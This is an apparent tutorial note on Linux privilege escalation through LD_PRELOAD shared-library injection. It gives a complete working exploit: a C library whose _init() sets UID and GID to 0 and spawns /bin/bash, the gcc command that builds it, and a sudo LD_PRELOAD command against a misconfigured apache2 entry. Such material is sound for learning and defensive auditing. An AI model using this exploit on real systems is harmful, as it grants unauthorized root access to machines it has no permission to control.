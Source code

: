 

### 📚 What Is a Shared Library?

A **shared library** is a file that contains **common code** that different programs can use without having to duplicate that code.

- For example, the library `libc.so` is used by many programs to handle basic tasks like printing text or handling files.

Instead of every program including the same code, it just uses the shared library when needed. This helps save memory and makes the system more efficient.

---

### 🧨 What Is Shared Library Injection?

**Shared library injection** is when we **force a program to load a malicious shared library** (a `.so` file) to **run code** we want, like opening a root shell, changing settings, or escalating privileges.

For example, if we trick a program running with **root permissions** to load our malicious library, we can gain **root access**.

### 🔧 Tools & Techniques for Injection

There are two common methods to inject a shared library:

1. **LD_PRELOAD**: A special environment variable that allows you to inject your custom shared library into a running program.
2. **ptrace**: A system call that allows a program to control and modify another process’s memory, which can also be used for injection.

We’ll focus on the **LD_PRELOAD** method in this example.

---

## 🧑‍💻 Privilege Escalation Example: Using `LD_PRELOAD`

### 1. **Check What You Can Do With Sudo**

First, check what commands you can run as `sudo`:

```bash
sudo -l
```

**Explanation**:

- `sudo -l`: This command lists all the commands you are allowed to run as root (administrator).
- You’re looking for something that runs with `sudo` without asking for a password.

### Example Output:

```
(env_keep+=LD_PRELOAD)
(root) NOPASSWD: /usr/sbin/apache2
```

**What this means**:

- You can run `/usr/sbin/apache2` as **root** (with full permissions) without password.
- The `LD_PRELOAD` environment variable is not restricted, which means you can **inject your own shared library** into the running process.

### 2. **Create a Malicious Shared Library**

Now, we’ll create a malicious shared library that, when loaded, will give us a **root shell**.

- Create a new C file called `shell.c`:

```c
#include <stdio.h>
#include <sys/types.h>
#include <stdlib.h>
void _init() {
unsetenv("LD_PRELOAD");  // Remove LD_PRELOAD to avoid infinite recursion
setgid(0);  // Set group ID to 0 (root)
setuid(0);  // Set user ID to 0 (root)
system("/bin/bash");  // Execute a root shell
}
```

**Explanation**:

- **`_init()`**: This function is special because it runs automatically when the shared library is loaded.
- **`setuid(0)` and `setgid(0)`**: These commands give us root privileges (UID and GID 0).
- **`system("/bin/bash")`**: This command spawns a **root shell**.

### 3. **Compile the Shared Library**

Now, we need to compile the C code into a shared library file (the `.so` file).

```c
gcc -fPIC -shared -o shell.so shell.c -nostartfiles
```

**Explanation**:

- **`gcc`**: This is the C compiler.
- **`fPIC`**: This option tells the compiler to create **position-independent code**, which is needed for shared libraries.
- **`shared`**: This creates a shared library, not a regular executable.
- **`o shell.so`**: This specifies the output file name (`shell.so`).
- **`nostartfiles`**: This tells the compiler to skip the default start-up code and use our custom `_init()` function.

### 4. **Inject the Library and Gain Root Access**

Now, run the program (`apache2` in this case) with `sudo` and inject the malicious library using `LD_PRELOAD`:

```bash
sudo LD_PRELOAD=/full/path/to/shell.so /usr/sbin/apache2
```

**Explanation**:

- **`sudo`**: This runs a command as root (administrator).
- **`LD_PRELOAD=/full/path/to/shell.so`**: This tells the system to **preload** our malicious shared library (`shell.so`) before anything else, effectively hijacking the behavior of the `apache2` binary.
- **`/usr/sbin/apache2`**: This is the target binary that you’re running as root.

Once you run this command, it will load your malicious library, and the `_init()` function will run. This gives you a **root shell**.
___

